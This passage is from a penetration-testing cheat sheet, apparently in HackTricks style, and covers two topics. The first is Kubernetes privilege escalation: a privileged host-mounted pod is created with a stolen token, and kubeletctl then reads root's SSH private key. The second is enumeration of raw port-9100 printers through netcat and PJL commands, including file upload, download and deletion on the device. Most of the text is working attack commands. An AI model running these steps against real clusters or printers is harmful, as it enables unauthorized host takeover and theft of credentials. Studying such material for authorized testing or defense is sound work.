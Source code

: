            path: /
      automountServiceAccountToken: true
      hostNetwork: true
    ```

    Create the POD with the file:

    ```bash
    kubectl --token=$token --certificate-authority=ca.crt --server=https://<IP>:6443 apply -f privesc.yaml
    # Check if running
    kubectl --token=$token --certificate-authority=ca.crt --server=https://10.129.96.98:6443 get pods
    # Run commands
    kubeletctl --server <IP> exec "cat /root/root/.ssh/id_rsa" -p privesc -c privesc
    ```

## 9100 - Raw Printing

Raw port 9100 printing, also referred to as JetDirect, AppSocket or PDL-datastream actually **is not a printing protocol by itself**. Instead **all data sent is directly processed by the printing device**, just like a parallel connection over TCP.

**Enumeration**

```bash
nc -vn <IP> 9100
@PJL INFO STATUS      #CODE=40000   DISPLAY="Sleep"   ONLINE=TRUE
@PJL INFO ID          # ID (Brand an version)
@PJL INFO PRODINFO    #Product info
@PJL FSDIRLIST NAME="0:\" ENTRY=1 COUNT=65535  #List dir
@PJL INFO VARIABLES   #Env variales
@PJL INFO FILESYS     #?
@PJL INFO TIMEOUT     #Timeout variables
@PJL RDYMSG           #Ready message
@PJL FSINIT
@PJL FSDIRLIST
@PJL FSUPLOAD         #Useful to upload a file
@PJL FSDOWNLOAD       #Useful to download a file
@PJL FSDELETE         #Useful to delete a file
```





